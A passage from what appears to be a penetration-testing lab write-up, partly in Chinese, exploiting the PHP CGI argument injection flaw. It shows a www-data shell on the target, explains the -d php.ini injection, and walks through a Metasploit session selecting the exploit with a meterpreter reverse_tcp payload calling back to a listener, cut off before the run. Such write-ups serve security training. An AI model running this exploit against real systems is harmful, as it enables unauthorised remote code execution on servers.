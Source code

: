 ```
DISTRIB_DESCRIPTION="Ubuntu 8.04"
www-data@d1d6a9361621:/var/www$ uname -a
uname -a
Linux d1d6a9361621 5.4.0-1048-aws #50-Ubuntu SMP Mon May 3 21:44:17 UTC 2021 x86_64 GNU/Linux
www-data@d1d6a9361621:/var/www$ 
```

[PHP CGI Argument Injection](https://www.rapid7.com/db/modules/exploit/multi/http/php_cgi_arg_injection/)

PHP CGI 参数注入

当作为 CGI 运行时，PHP 5.3.12 和 5.4.2 版本容易受到参数注入漏洞的影响。该模块利用 -d 标志设置 php.ini 指令以实现代码执行。从咨询中：“如果查询字符串中没有未转义的‘=’，则该字符串将拆分为‘+’（编码的空格）字符，经过 url 解码，传递给转义 shell 元字符的函数（“在系统中编码- “从 RFC 定义的方式”），然后将它们传递给 CGI 二进制文件。该模块还可用于利用 kingcope 披露并于 2013 年 6 月在野利用的 plesk 0day。

```
root@attackdefense:~# msfconsole -q
msf6 > search php cgi

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   9   exploit/multi/http/php_cgi_arg_injection                    2012-05-03       excellent  Yes    PHP CGI Argument Injection


Interact with a module by name or index. For example info 11, use 11 or use exploit/linux/local/blueman_set_dhcp_handler_dbus_priv_esc

msf6 > use 9
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/php_cgi_arg_injection) > show options

Module options (exploit/multi/http/php_cgi_arg_injection):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLESK        false            yes       Exploit Plesk
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                     no        The URI to request (must be a CGI-handled PHP script)
   URIENCODING  0                yes       Level of URI URIENCODING and padding (0 for minimum)
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.21.4       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
```